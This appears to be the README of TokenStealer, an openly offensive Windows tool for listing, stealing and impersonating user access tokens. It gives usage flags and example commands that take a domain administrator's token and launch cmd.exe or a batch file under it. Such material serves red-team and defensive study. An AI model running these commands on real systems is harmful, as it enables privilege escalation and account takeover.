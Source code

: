# TokenStealer
A simple tool I wrote some time ago for stealing and playing with Windows tokens.<br>
Parts of code have been taken and adatpted from https://github.com/FSecureLABS/incognito
<br><br>
TokenStealer.exe
[+] My personal simple and stupid  Token Stealer... ;)<br>
[+] @decoder_it 2023<br>

[!] Usage:<br>
         -l: list all users token<br>
         -e: list all users token with extended info -> <user>:<token_level (2)=Impersonation, (3)=Delegation,(P)=Primary>:<pid><br>
         -p: users token from specfic  process pid<br>
         -u: impersonate token of user <user> <br>
         -c: command to execute with token <br>
         -t: force use of impersonation Privilege <br>
         -b: needed token type: 1=Primary,2=Impersonation,3=Delegation <br>
<br><br>
=Examples=<br><br>
<br><b>TokenStealer.exe -e -b 1 </b> -> list all primary tokens<br>
<br><b>TokenStealer.exe -l -p 100 </b>-> list all tokensin process pid 100<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe </b>-> steal token of user and execute an interactive  command shell using the AssingPrimary privilege of available<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\bind.bat  -p 100 -t </b>-> steal token of user in process and execute the batch file using Impersonation privilege instead of AssingPrimary<br>
<br><b>TokenStealer.exe -u  MYDOMAIN\administrator -c c:\windows\system32\cmd.exe -b 1 </b>-> steal a primary token of user and execute an interactive  command shell using the AssingPrimary privilege if available<br>

